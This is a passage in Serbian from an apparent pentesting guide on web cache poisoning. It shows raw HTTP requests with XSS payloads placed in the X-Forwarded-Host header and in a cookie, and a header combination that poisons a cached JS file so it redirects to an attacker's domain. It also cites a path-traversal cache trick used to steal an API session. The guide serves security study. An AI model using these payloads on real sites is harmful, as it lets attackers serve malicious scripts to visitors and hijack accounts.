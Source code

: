 ### Najjednostavniji primer

Header poput `X-Forwarded-For` se odražava u odgovoru nefiltriran.\
Možete poslati osnovni XSS payload i otrovati keš tako da će svako ko pristupi stranici biti izložen XSS napadu:

```markup
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
```

### Korišćenje trovanja keša veb stranica za iskorišćavanje ranjivosti u rukovanju kolačićima

Kolačići takođe mogu biti reflektovani u odgovoru stranice. Ako možete zloupotrebiti to da izazovete XSS na primer, možete iskoristiti XSS u nekoliko klijenata koji učitavaju zlonamerni keš odgovor.

```markup
GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
```

### Trovanje keša sa putanjskim prelaskom da bi se ukrao API ključ <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

[**Ovaj opis objašnjava**](https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html) kako je bilo moguće ukrasti OpenAI API ključ sa URL-om poput `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` jer će sve što odgovara `/share/*` biti keširano bez normalizacije URL-a od strane Cloudflare-a, što je urađeno kada je zahtev stigao do veb servera.

### Korišćenje više zaglavlja za eksploataciju ranjivosti trovanja keša na vebu <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Ponekad će biti potrebno **eksploatisati nekoliko neindeksiranih unosa** kako biste mogli zloupotrebiti keš. Na primer, možete pronaći **Otvoreno preusmeravanje** ako postavite `X-Forwarded-Host` na domen koji kontrolišete i `X-Forwarded-Scheme` na `http`. **Ako** je **server** **preusmeravao** sve **HTTP** zahteve **na HTTPS** i koristio zaglavlje `X-Forwarded-Scheme` kao ime domena za preusmeravanje. Možete kontrolisati gde će stranica biti usmerena preusmeravanjem.

```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Iskorišćavanje sa ograničenim `Vary` zaglavljem

